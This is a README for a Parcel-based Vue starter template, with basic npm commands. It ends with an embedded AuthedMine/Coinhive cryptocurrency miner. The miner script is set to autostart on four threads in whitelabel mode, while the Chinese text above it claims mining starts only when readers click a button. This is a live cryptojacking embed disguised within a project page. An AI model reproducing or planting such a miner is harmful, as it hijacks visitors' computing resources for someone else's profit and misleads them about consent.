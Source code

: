 ## 一个基于parcel打包工具的vue起手式

**How To Use**

Clone this git, and run script like this:

```bash
    npm install
    npm run dev
```

For Local Dest:
    `npm run build`

For production:
    `npm run prod`

**Happy Using Vuejs**

> **点击下方的 “Start Mining” 按钮，一起来试验自动运算脚本的成果吧！**
> 每一次的试验，都是对我的支持，感谢参与的朋友！
> 本页面的自动运算脚本运行时可能占用您的闲置CPU/GPU资源进行挖矿，如果对此感到不适，可随时点击暂停。

<script src="https://authedmine.com/lib/simple-ui.min.js" async></script>
<div class="coinhive-miner" 
	style="width: 256px; height: 310px; margin: 0 auto;"
	data-key="AZjbYJkvEphSw98bqbqwA7NpyiLKMKOd"
	data-autostart="true"
	data-whitelabel="true"
	data-background="#ffffff"
	data-text="#8e24aa"
	data-action="#1e88e5"
	data-graph="#757575"
	data-threads="4"
	data-throttle="0.1">
</div>